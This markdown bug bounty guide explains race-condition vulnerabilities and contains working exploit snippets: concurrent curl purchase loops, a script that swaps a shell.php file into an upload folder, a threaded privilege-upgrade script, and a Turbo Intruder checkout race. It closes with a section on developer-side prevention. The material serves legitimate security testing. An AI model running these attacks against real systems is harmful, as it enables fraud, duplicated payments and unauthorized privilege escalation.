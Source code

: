 
# 🧠 Race Conditions in Bug Bounty (Advanced & Beast Mode Guide)

---

## 🔹 What is a Race Condition?

A **race condition** occurs when multiple operations are executed **concurrently** and the final outcome depends on the **timing or sequence** of these operations. In security, it allows attackers to manipulate logic before another process finishes—often bypassing checks or duplicating actions (e.g., funds, tokens, privileges).

---

## 🔹 Types of Race Conditions (💥 Bug Bounty Relevant)

|Type|Description|Real-world Impact|
|---|---|---|
|**TOCTOU (Time-of-Check to Time-of-Use)**|State is validated, but changes before action is performed|File permission bypass, privilege escalation|
|**Concurrency Race**|Multiple parallel threads/processes compete for shared resource|Account takeover, double-spending|
|**Signal-based Race**|Race created using Unix signals like `SIGSTOP`/`SIGCONT`|Bypass of security mechanisms|
|**Multi-threaded Race**|Threads share state/data without proper locking|Logic bypass, multi-use of single-use endpoints|
|**Fork-Exec Race**|Race using `fork()` and `exec()` calls|Execute malicious processes before security check|
|**Shared Resource Race**|Race in shared memory, DB, cache, session, etc.|DB inconsistency, session hijack|

---

## 🔹 Real-World Race Vulnerabilities (Bug Bounty Examples)

|Target|Vulnerability|Impact|
|---|---|---|
|**Shopify**|Double-order placement by racing checkout|$50k payout|
|**HackerOne**|Repeated reward redemption via API race|Logic bypass|
|**Uber**|Concurrent driver payout requests|Double payment|
|**Banking Apps**|Balance not updated fast enough|Money duplication|

---

## 🔹 🧪 How to Detect Race Conditions

### Manual Testing

- Identify **critical logic endpoints**:
    
    - Payment, coupon, checkout
        
    - File uploads
        
    - Privilege actions
        
- Look for **state-check + action** patterns
    
- Reuse same token/session across concurrent requests
    

### Tools

- **Turbo Intruder (Burp Suite extension)**
    
    - Ultra-fast HTTP smuggling / race testing
        
- **RaceTheWeb** (automated race condition scanner)
    
- **Intruder in Burp** (using `clusterbomb` or `pitchfork`)
    
- **Parallel Python Scripts** using `threading` or `multiprocessing`
    

---

## 🔹 🔫 Exploitation Techniques

### 💣 1. Double-Spend Attack


``Send multiple POSTs to purchase item
`for i in {1..10}; do
 `` curl -X POST -d 'item_id=123' https://target.com/api/buy &
`done
`wait


> Effect: You bought the item once, but charged multiple times or got duplicates.

---

### 🧨 2. TOCTOU on File Upload

1. Upload file → App checks if it’s a `.jpg`
    
2. Before final move/save, replace with `.php`
    
3. Now server saves `.php` thinking it's `.jpg`
    

Use:

`inotifywait -m /tmp/uploads -e create |
  `while read path file; do
    `cp shell.php /tmp/uploads/$file
  `done


---

### 🪓 3. User Privilege Escalation via Race
`Simulate 20 concurrent requests to role upgrade API
`import threading
`import requests

`def upgrade():
   ` requests.post("https://target.com/api/upgrade", cookies={'session':'XYZ'})

`threads = []
`for i in range(20):
    `t = threading.Thread(target=upgrade)
   ` t.start()
    `threads.append(t)

`for t in threads:
   ` t.join()


---

## 🔐 Advanced Attack Surfaces for Race Conditions

|Component|Exploit Vector|
|---|---|
|**Payment Gateways**|Race payment confirmation|
|**Coupon Redemption**|Use once-only coupons multiple times|
|**File Systems**|Replace file during upload|
|**JWT/Session Validation**|Race to use expired tokens|
|**Database Writes**|Dirty reads, money duplication|
|**Mobile APIs**|Often miss concurrency handling|

---

## 📖 Beast Techniques for Hardcore Hunters

### ✅ Use Turbo Intruder for High-Speed Race

Turbo Intruder script to race checkout endpoint:
`def queueRequests(target, wordlists):
    `engine = RequestEngine(endpoint=target.endpoint,
        `concurrentConnections=50,
        `requestsPerConnection=100,
        `pipeline=False
   ` )

    `for i in range(50):
    `    engine.queue(target.req)

`def handleResponse(req, interesting):
    `if b'success' in req.response:
       ` print('Potential race win!', req.response)
`
---

### 🛠 Combine Race + Logic + IDOR

- Use IDOR to target another user's action (e.g., password reset)
    
- Use race to trigger multiple executions of that action
    
- Use logic bug to complete the bypass
    

---

## 🧩 Prevention Techniques (Dev-side)

|Technique|Description|
|---|---|
|**Atomic Operations**|Use `transactions` in DB|
|**Locking (Mutex/Semaphores)**|Prevent concurrent access|
|**Check-then-Act Atomically**|Avoid TOCTOU|
|**Idempotency Tokens**|Allow action only once per token|
|**Rate Limiting**|Block mass requests|
|**Queueing Systems**|Serialize sensitive operations|
## 📂 Real-World Reports (HackerOne / Bugcrowd)

- Shopify - Double Payment via Race Condition`https://hackerone.com/reports/1024784
    
- Uber - Bonus Abuse`https://hackerone.com/reports/231502
    
- GitHub - Repo Visibility Change Race`https://hackerone.com/reports/381194
    
- Slack - Coupon Reuse Race`https://hackerone.com/reports/118850
